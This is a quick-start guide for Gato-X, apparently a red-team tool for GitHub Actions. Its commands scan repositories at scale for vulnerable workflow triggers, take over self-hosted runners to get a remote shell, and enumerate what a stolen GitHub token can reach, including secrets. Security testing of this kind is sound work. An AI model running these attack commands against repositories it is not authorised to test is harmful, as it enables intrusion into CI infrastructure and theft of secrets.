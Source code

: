 # Quick Start Guide

This guide will help you get started with Gato-X quickly for common use cases.

## Prerequisites

Before you begin, make sure you have:

1. Installed Gato-X (see [Installation](installation.md))
2. Created a GitHub PAT with appropriate scopes
3. Set the `GH_TOKEN` environment variable with your PAT

## Search For GitHub Actions Vulnerabilities at Scale

This workflow demonstrates how to scan a large number of repositories for potential vulnerabilities:

### Step 1: Search for candidate repositories

```bash
gato-x s -sg -q 'count:75000 /(issue_comment|pull_request_target|issues:)/ file:.github/workflows/ lang:yaml' -oT checks.txt
```

This command:
- Uses the search (`s`) command with Sourcegraph API (`-sg`)
- Searches for workflows that use potentially vulnerable triggers
- Outputs the results to a text file (`checks.txt`)

### Step 2: Enumerate the repositories for vulnerabilities

```bash
gato-x e -R checks.txt | tee gatox_output.txt
```

This command:
- Uses the enumerate (`e`) command
- Processes all repositories from the file (`-R checks.txt`)
- Saves the output to a file while displaying it in the terminal

## Perform Self-Hosted Runner Takeover

To perform a public repository self-hosted runner takeover attack:

### Prerequisites

- A GitHub PAT with `repo`, `workflow`, and `gist` scopes
- The PAT should be for an account that is a contributor to the target repository

### Execute the attack

```bash
gato-x a --runner-on-runner --target ORG/REPO --target-os linux --target-arch x64
```

This command:
- Uses the attack (`a`) command
- Specifies the runner-on-runner attack method
- Targets a specific repository
- Specifies the target runner's OS and architecture

If the attack succeeds, Gato-X will drop to an interactive prompt where you can execute shell commands on the self-hosted runner.

For non-ephemeral runners, use the `--keep-alive` flag to keep the workflow running (up to 5 days).

## Post-Compromise Enumeration

If you have obtained a GitHub PAT, you can use Gato-X to validate it and identify what it has access to:

```bash
gato-x e -s
```

This command:
- Uses the enumerate (`e`) command with self-enumeration (`-s`)
- Identifies repositories with administrative access
- Shows accessible secrets (if the user has write access)

## Additional Options

For more detailed information about each command and its options, see the [Command Reference](command-reference/index.md) section.
